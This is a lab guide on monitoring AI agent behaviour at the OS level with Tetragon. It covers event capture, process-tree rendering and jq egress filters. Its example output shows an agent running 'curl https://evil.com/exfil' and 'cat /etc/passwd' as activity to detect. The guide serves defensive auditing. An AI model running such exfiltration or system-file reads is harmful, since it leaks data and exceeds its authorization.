

   

# LAB122: Runtime Security Monitoring

## Introduction

AI agents execute code, call tools, spawn subprocesses, and make network connections. From the host's perspective, this is just process and network activity, and it can be observed with the same runtime security tooling used for containers and microservices.

This lab uses **Tetragon**, a Cilium eBPF-based runtime security tool, to capture and analyze what an agentic application actually does at the OS level: which processes it spawns, what binaries it executes, which network connections it opens, and the full parent-child process tree. The goal is to make agent behavior observable and auditable, regardless of what the agent claims it is doing in its prompts or logs.



| File | What it does |
|------|-------------|
| `treejson.py` | Parses Tetragon JSONL events and renders process execution trees |

## Prerequisites

This lab requires a **Linux host** (bare metal or VM). Tetragon uses eBPF kernel hooks that are not available on macOS or Windows natively.

Install Tetragon via Docker: https://tetragon.io/docs/getting-started/install-docker/

Verify Tetragon is running:

```bash
docker exec -ti tetragon tetra getevents -o compact
```

You should see a live stream of process events. Press `Ctrl+C` to stop.

## Part 1: Capturing Process Events

### Step 1: Collect Events

Start capturing Tetragon events to a JSONL file. Run this in a terminal and leave it collecting while you run your agent or workload in another terminal:

```bash
docker exec -ti tetragon tetra getevents > events.jsonl
```

Press `Ctrl+C` after your workload has finished to stop capturing.

### Step 2: Build the Process Tree

```bash
python3 treejson.py < events.jsonl
```

This parses the `process_exec` and `process_exit` events from the JSONL and renders the full process hierarchy. Example output:

```
/usr/lib/systemd/systemd (pid 1)
└── /bin/bash (pid 100)
    ├── /usr/bin/python3 (pid 200) agent.py
    │   ├── /usr/bin/curl (pid 201) https://api.openai.com/v1/chat/completions
    │   └── /usr/bin/curl (pid 202) https://evil.com/exfil
    └── /bin/cat (pid 203) /etc/passwd
```

This tells you exactly what the agent did: which binaries it launched, with what arguments, and the parent-child relationships. An agent that claims to "only call the OpenAI API" but also spawns `curl https://evil.com/exfil` is immediately visible.

## Part 2: Egress Tracing

Network connections are captured via `process_kprobe` events. Use `jq` to extract the relevant fields from the JSONL.

### Step 3: Basic Egress Filter

Extract the process binary, source/destination addresses, and ports for all outbound connections:

```bash
jq -r '
  select(.process_kprobe != null)
  | {
      process_binary: .process_kprobe.process.binary,
      parent_binary: .process_kprobe.parent.binary,
      root_binary: (if .process_kprobe.parent.parent_binary?
                    then .process_kprobe.parent.parent_binary
                    else .process_kprobe.parent.binary
                    end),
      resolved_binary: (if .process_kprobe.process.binary == "/proc/self/exe"
                        then .process_kprobe.parent.binary
                        else .process_kprobe.process.binary
                        end),
      saddr: .process_kprobe.args[0].sock_arg.saddr,
      sport: .process_kprobe.args[0].sock_arg.sport,
      daddr: .process_kprobe.args[0].sock_arg.daddr,
      dport: .process_kprobe.args[0].sock_arg.dport
    }
' < events.jsonl
```

The `resolved_binary` field handles the case where a process uses `/proc/self/exe` (common in Go binaries and some Python runtimes), resolving it to the actual parent binary.

### Step 4: Egress Filter with Process Arguments

Add process and parent arguments to correlate network connections with the specific command that triggered them:

```bash
jq -r '
  select(.process_kprobe != null)
  | {
      process_binary: .process_kprobe.process.binary,
      process_args: .process_kprobe.process.arguments,
      parent_binary: .process_kprobe.parent.binary,
      parent_args: .process_kprobe.parent.arguments,
      root_binary: (if .process_kprobe.parent.parent_binary?
                    then .process_kprobe.parent.parent_binary
                    else .process_kprobe.parent.binary
                    end),
      resolved_binary: (if .process_kprobe.process.binary == "/proc/self/exe"
                        then .process_kprobe.parent.binary
                        else .process_kprobe.process.binary
                        end),
      saddr: .process_kprobe.args[0].sock_arg.saddr,
      sport: .process_kprobe.args[0].sock_arg.sport,
      daddr: .process_kprobe.args[0].sock_arg.daddr,
      dport: .process_kprobe.args[0].sock_arg.dport
    }
' < events.jsonl
```

This version shows you not just which binary made the connection, but what arguments it was invoked with. For example, you can see the full `curl` command line or the Python script name that triggered a network call.

## Why This Matters for Agentic Systems

Agents make decisions at runtime: which tools to call, what data to fetch, where to send results. Traditional application security assumes predictable behavior, but agentic behavior is inherently non-deterministic. An agent might call a tool it has never called before, connect to an unexpected endpoint, or spawn a subprocess based on model output.

Runtime observability gives you ground truth. No matter what the agent's prompt says, no matter what the model claims in its chain-of-thought, the eBPF layer captures what actually happened at the kernel level. This is the foundation for:

- Detecting prompt injection that triggers unauthorized tool use
- Auditing agent behavior for compliance
- Catching data exfiltration via unexpected network connections
- Building runtime security policies that enforce least privilege

## Cleanup environment

Stop the Tetragon container when you are done:

```bash
docker stop tetragon
```

Remove captured events:

```bash
rm -f events.jsonl
```

Back to [Lab Overview](https://github.com/kubiosec-agentic/agentic-labs/blob/master/README.md#-lab-overview)
